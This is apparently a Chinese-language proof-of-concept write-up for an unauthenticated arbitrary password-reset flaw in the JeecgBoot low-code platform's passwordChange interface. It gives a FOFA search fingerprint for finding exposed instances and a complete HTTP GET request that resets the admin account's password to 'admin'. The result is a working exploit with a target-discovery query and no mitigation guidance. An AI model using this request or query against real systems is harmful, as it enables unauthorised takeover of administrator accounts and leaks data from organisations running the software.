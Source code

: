 # JeecgBoot系统接口passwordChange任意用户密码重置漏洞

Jeecg Boot是一个企业级低代码开发平台，基于前后端分离的架构，融合了SpringBoot、SpringCloud、Ant Design、Vue、Mybatis-plus、Shiro、JWT等多种主流技术，旨在帮助企业快速构建各种应用系统，提高开发效率，降低开发成本。

JeecgBoot系统接口passwordChange任意用户密码重置漏洞，未经身份验证的远程攻击者可以利用此漏洞重置管理员账户密码，从而接管系统后台，造成信息泄露，导致系统处于极不安全的状态。

## fofa

```javascript
body="/sys/common/pdf/pdfPreviewIframe"
```

## poc

```javascript
GET /jeecg-boot/sys/user/passwordChange?username=admin&password=admin&smscode=&phone= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20241219145613854](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191456905.png)